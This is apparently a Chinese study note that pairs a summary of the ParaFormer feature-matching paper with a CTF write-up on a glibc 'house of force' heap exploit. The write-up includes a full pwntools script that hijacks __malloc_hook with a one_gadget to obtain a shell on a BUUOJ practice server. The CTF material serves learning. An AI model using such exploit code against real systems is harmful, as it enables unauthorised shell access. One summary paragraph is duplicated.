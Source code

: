 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images/三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为 $p^X \in R^{M\times3}$, $p^Y \in R^{N\times3}$ ,  设置描述符分别为 $d^X \in R^{M\times C}$ , $d^Y \in R^{N\times C}$ 。波形的生成公式如下

$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\quad= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$

在Wave-PE中将位置 $p$ 和描述符 $d$ 分别映射为为幅度 $A$ 和相位 $\theta$ 通过MLP将其转换为位置编码  $x,[.,.]$  表示链接。

$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$

接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为 $Q、K、V$ 。然后并行计算自注意力和交叉注意力，自注意力的输入是 $(Q_x,V_x, K_x)$ 和 $(Q_y,V_y, K_y)$ 对于自注意力来说采用标准的注意力公式。

$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$

对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用 $(Q_xK_y^T)^T$ 来代替

 $Q_yK_x^T$ ，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$ ，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为 $x^l ∈ R^{N×D}$ ，注意力权重为 $A^l ∈ R^{N×N}$ 。提出的注意力池化定义为：

$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层 $l+1$ 的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分 $s∈R^N$ ,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$ 提取s中索引为 $idx$ 的值然后利用 $sigmoid$ 运算来生成gating信号， $\odot$ 表示逐元素矩阵乘法。

反池化上采样操作则为

$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$

 $x^l∈R^{k\times C^l}$ 是当前的特征矩阵， $0_{N \times C^{l+1}}$ 是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。 $idx ∈ R^k$ 是在对应池化层中选择的点的索引。然后根据 $idx$ 将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

